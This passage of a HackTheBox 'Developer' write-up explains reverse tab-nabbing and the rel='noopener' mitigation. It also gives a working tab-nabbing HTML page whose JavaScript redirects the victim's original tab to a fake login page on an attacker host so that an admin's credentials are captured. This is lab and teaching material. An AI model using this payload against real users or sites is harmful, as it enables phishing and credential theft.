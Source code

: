<p>0xprashant found this neat <a href="https://0xprashant.in/posts/htb-bug/">reverse tab-nabbing bug</a> in the HTB platform August 2020. When a web developer wants a link to open in a new tab, they add <code class="language-plaintext highlighter-rouge">target="_blank"</code> to the <code class="language-plaintext highlighter-rouge">&lt;a&gt;</code> tag. The issue is, if that link leads to a malicious page and mitigations aren’t in place, then JavaScript on that page can actually change the location of the original page. So this is really only an issue if you are linking to user-controlled content that the site doesn’t. The mitigation for this is to also add <code class="language-plaintext highlighter-rouge">rel="noopener nofollow"</code> to the <code class="language-plaintext highlighter-rouge">&lt;a&gt;</code> tag as well.</p>

<p>For example, the HackTheBox pages for retired machines show links to user writeups. Looking at the source on HTB for the link to my RopeTwo writeup, the mitigation is in place:</p>

<picture>
    <source type="image/webp" srcset="/img/image-20220113073246052.webp">
    <img src="/img/image-20220113073246052.png" alt="image-20220113073246052" class="include_image ">
</picture>

<p>Looking at the profile links on Developer, the <code class="language-plaintext highlighter-rouge">rel</code> is missing, suggesting this link is vulnerable to tab-nabbing:</p>

<picture>
    <source type="image/webp" srcset="/img/image-20220113073356495.webp">
    <img src="/img/image-20220113073356495.png" alt="image-20220113073356495" class="include_image ">
</picture>

<h4 id="strategy">Strategy</h4>

<p>The goal here will be to host a page so that when the admin clicks on the link, it open in a new tab that’s now visible. The JavaScript in that tab will reverse tab-nab the original tab to send it to another page I’m hosting that looks like the login page for Developer. When the admin is done reading my page and comes back, they’ll think they’ve been logged out for some reason, and log in again, where I capture the creds.</p>

<h4 id="generate-tab-nabber">Generate Tab-Nabber</h4>

<p>I’ll grab the tab nabber page from the 0xprashant post and edit it to point to the login path on my host:</p>

<div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;html&gt;</span>
  <span class="nt">&lt;body&gt;</span>
    <span class="nt">&lt;h2&gt;</span>Challenge Writeup<span class="nt">&lt;/h2&gt;</span>
    <span class="nt">&lt;p&gt;</span>This challenge was quite well designed! Good job by the developers at Developer for this one. I would definitely recommend it to my friends. It required critical thinking and tools like Ghidra to get the job done<span class="nt">&lt;/p&gt;</span>
    <span class="nt">&lt;script&gt;</span>
    <span class="k">if</span> <span class="p">(</span><span class="nb">window</span><span class="p">.</span><span class="nx">opener</span><span class="p">)</span> <span class="nb">window</span><span class="p">.</span><span class="nx">opener</span><span class="p">.</span><span class="nx">parent</span><span class="p">.</span><span class="nx">location</span><span class="p">.</span><span class="nx">replace</span><span class="p">(</span><span class="dl">'</span><span class="s1">http://10.10.14.6/accounts/login/</span><span class="dl">'</span><span class="p">);</span>
    <span class="k">if</span> <span class="p">(</span><span class="nb">window</span><span class="p">.</span><span class="nx">parent</span> <span class="o">!=</span> <span class="nb">window</span><span class="p">)</span> <span class="nb">window</span><span class="p">.</span><span class="nx">parent</span><span class="p">.</span><span class="nx">location</span><span class="p">.</span><span class="nx">replace</span><span class="p">(</span><span class="dl">'</span><span class="s1">https://10.10.14.6/accounts/login/</span><span class="dl">'</span><span class="p">);</span>           
    <span class="nt">&lt;/script&gt;</span>
  <span class="nt">&lt;/body&gt;</span>
<span class="nt">&lt;/html&gt;</span>
</code></pre></div></div>
